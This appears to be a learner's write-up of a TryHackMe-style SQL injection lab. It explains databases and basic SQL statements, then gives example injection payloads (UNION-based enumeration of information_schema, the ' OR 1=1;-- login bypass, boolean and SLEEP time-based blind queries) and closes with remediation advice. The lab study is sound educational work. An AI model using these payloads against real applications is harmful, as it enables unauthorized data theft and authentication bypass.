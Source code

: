 # SQL Injection

## Task 1: Brief

SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input from a user that hasn't been properly validated, there is the potential for an attacker to steal, delete, or alter private and customer data and attack the web application authentication methods to private or customer areas. This is why SQLi is one of the oldest web application vulnerabilities and also one of the most damaging.

## Task 2: What is a Database?

![](https://github.com/user-attachments/assets/eaa2be93-3b5a-465d-a266-6ef40840c927)
![](https://github.com/user-attachments/assets/74101a7f-ae47-4767-ad50-19c9bf9127aa)

A database is an organized collection of data controlled by a Database Management System (DBMS). DBMSs can be Relational (SQL-based, structured in tables with rows and columns) or Non-Relational (NoSQL, flexible structure).

- Relational databases: MySQL, PostgreSQL, Microsoft SQL Server
- Non-Relational databases: MongoDB, Cassandra

Tables in relational databases have rows (records) and columns (fields). Columns define data types such as integers, strings, or dates. Rows store actual data entries.

## Task 3: What is SQL?

SQL (Structured Query Language) is used for interacting with databases through statements:

### SELECT
Retrieve data from a database:

```sql
SELECT * FROM users;
SELECT username, password FROM users;
SELECT * FROM users LIMIT 1;
SELECT * FROM users WHERE username='admin';
```

### UNION
Combine results from multiple SELECT statements:

```sql
SELECT name FROM customers UNION SELECT name FROM suppliers;
```

### INSERT
Insert data into a database:

```sql
INSERT INTO users (username, password) VALUES ('bob', 'password123');
```

### UPDATE
Update data within a database:

```sql
UPDATE users SET username='root' WHERE username='admin';
```

### DELETE
Delete data from a database:

```sql
DELETE FROM users WHERE username='martin';
```

## Task 4: What is SQL Injection?

SQL Injection occurs when user-supplied data is used directly in SQL queries without validation:

Example URL:

```
https://website.thm/blog?id=1;--
```

Injected Query:

```sql
SELECT * FROM blog WHERE id=1;-- and private=0 LIMIT 1;
```

## Task 5: In-Band SQL Injection

Two types:
- Error-Based SQL Injection: Leverages error messages to enumerate databases.
- Union-Based SQL Injection: Uses UNION statements to extract additional data.

Example payload:

```sql
0 UNION SELECT 1,2,database();
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one';
```

## Task 6: Blind SQL Injection - Authentication Bypass

Authentication bypass using a condition that always returns true:

```sql
' OR 1=1;--
```

## Task 7: Blind SQL Injection - Boolean Based

Boolean-based SQLi uses conditional queries and checks the true/false response to extract data:

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```

## Task 8: Blind SQL Injection - Time-Based

Time-based SQLi introduces delays to indicate successful queries:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

## Task 9: Out-of-Band SQL Injection

Uses external communication channels (HTTP/DNS) to extract data indirectly.

![](https://github.com/user-attachments/assets/7ce65b17-4094-4cd7-9d99-14d13bf96ce7)

## Task 10: Remediation

Methods to protect from SQLi:
- Prepared Statements
- Input Validation
- Escaping User Input
